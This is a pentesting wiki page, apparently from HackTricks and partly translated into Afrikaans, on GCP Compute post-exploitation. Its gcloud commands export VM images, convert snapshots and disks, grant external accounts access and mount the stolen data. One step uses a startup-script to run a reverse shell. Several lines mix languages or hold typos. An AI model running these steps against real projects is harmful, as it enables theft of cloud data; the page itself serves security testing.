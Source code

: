 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Vir meer inligting oor Compute en VPC (Netwerk) kyk:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Eksporteer & Ondersoek Beelde plaaslik

Dit sou 'n aanvaller in staat stel om **toegang te verkry tot die data wat in reeds bestaande beelde bevat is** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te eksporteer en dit dan af te laai en plaaslik te monteer met die opdrag:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Boonop, vir dit om te werk, benodig die codebuild SA en die compute SA bevoorregte toestemmings.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

- oles/compute.storageAdmin
- roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

Dit is nie moontlik om snapshots en disks direk te exporteer nie, maar dit is moontlik om **'n snapshot in 'n disk, 'n disk in 'n image** te transformeer en volgens die **vorige afdeling**, daardie image te exporteer om dit plaaslik te inspekteer.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang tot die beeld te gee:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en skep dan 'n nuwe VM daarvan:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor die beeld kon gee nie, kan jy 'n VM met daardie beeld in die slagoffer se projek begin en **die metadata laat 'n omgekeerde skulp uitvoer** om toegang tot die beeld te verkry deur die param toe te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Met die doel om toegang te verkry tot die **data wat in 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang gee** oor die skyf (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daaruit):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Tipies kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3.  **Formateer en Monteer die Skyf** (as dit 'n nuwe of rou skyf is):

- Skep 'n monteerpunt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Monteer die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang tot 'n eksterne projek** vir die snapshot of skyf kan gee nie, moet jy dalk **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf** uitvoer.

{{#include ../../../banners/hacktricks-training.md}}
